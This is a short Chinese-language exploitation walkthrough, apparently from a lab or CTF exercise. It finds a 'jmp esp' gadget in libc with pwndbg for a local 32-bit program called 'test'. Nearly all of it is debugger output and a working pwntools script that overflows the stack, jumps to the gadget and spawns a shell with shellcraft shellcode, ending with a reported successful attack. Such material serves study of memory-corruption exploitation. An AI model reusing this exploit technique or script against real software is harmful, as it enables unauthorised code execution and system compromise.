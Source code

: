 ## 寻找 "jmp esp"
找到一个地址 "0xf7dffaa9"
```
$ gdb test -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from test...(no debugging symbols found)...done.
pwndbg> b main
Breakpoint 1 at 0x8048519
pwndbg> r
Starting program: /home/lometsj/test 

Breakpoint 1, 0x08048519 in main ()

─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  8048519 main+14
   f 1 f7e15637 __libc_start_main+247
Breakpoint main
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/lometsj/test
 0x8049000  0x804a000 r-xp     1000 0      /home/lometsj/test
 0x804a000  0x804b000 rwxp     1000 1000   /home/lometsj/test
0xf7dfc000 0xf7dfd000 rwxp     1000 0      
0xf7dfd000 0xf7fad000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fad000 0xf7faf000 r-xp     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb0000 rwxp     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb0000 0xf7fb3000 rwxp     3000 0      
0xf7fd3000 0xf7fd4000 rwxp     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r-xp     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rwxp     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
pwndbg> find 0xf7dfd000,0xf7ffe000-1 ,(short)0xe4ff
0xf7dffaa9
0xf7e2a39d <__GI_abort+237>
0xf7edaa0b <__statvfs_getflags+427>
0xf7ef9f3d <__GI_rexec_af+429>
0xf7f04c7d <__GI___nss_gshadow_lookup2+93>
0xf7f550b7
0xf7f604b7
```

## 修改攻击脚本
使用找到的"jmp esp"地址而不是程序中给出的栈的地址
```python
from pwn import *
#context.log_level = 'debug' 
p = process("./test")
sc = asm(shellcraft.i386.sh())
temp = int(p.recvline(),16)
sc_addr = '\xa9\xfa\xdf\xf7'        #p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb'  + sc_addr + '\x90'*10 + sc
p.sendline(payload)
p.interactive()
```
攻击成功
```python
$ python test.py
[+] Starting local process './test': pid 32720
[*] Switching to interactive mode
```